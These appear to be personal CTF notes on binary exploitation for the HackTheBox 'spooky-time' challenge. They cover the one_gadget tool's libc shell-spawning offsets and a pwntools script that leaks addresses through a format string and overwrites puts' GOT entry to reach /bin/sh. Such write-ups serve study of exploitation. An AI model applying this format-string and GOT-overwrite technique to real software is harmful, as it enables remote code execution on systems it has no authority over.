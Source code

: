 ## One gadget

https://github.com/david942j/one_gadget

`libc` library has some pieces of code that runs a piece of code similar to `execve('/bin/sh', NULL, NULL)` which will lead to remote code execution.

You can use the one gadget to know exactly the memory address you need to point to achive this RCE. 

```bash
gal@gal-Modern-14-C12M:~/workspace/hackthebox/spooky-time/challenge$ one_gadget glibc/libc.so.6 
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL

0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

For every memory address, it also describe which value the register need to have in order to execute the RCE.

## Overwrite Global Object Table

The global object table is used to dynamically resolve standard library functions (`scanf`, `printf`, etc...). If you can modify it, you can alias an arbitrary code as any standard library function. You can use this flaw plus the one gadge tool in the previous section to setup a Remote Code Execution.

Below, you can find an example of how we can override the global object table using the one gadget tool:

```python
from pwn import *

context.binary = elf = ELF('./spooky_time')
libc = context.binary.libc

r = process('./spooky_time')

r.sendlineafter(b'scary!\n\n', '%3$lx%51$lx')
r.recvuntil(b'than \n')
libc.address = int(r.recvn(12), 16) - 1133111
elf.address = int(r.recvn(12), 16) - 5056
libc_one_gadget = libc.address + 0xebcf5 # libc.address + offset computed with one gadget tool

fmtstr_payload = fmtstr_payload(8, {elf.got['puts'] : libc_one_gadget}) # we make the function puts point to a RCE

```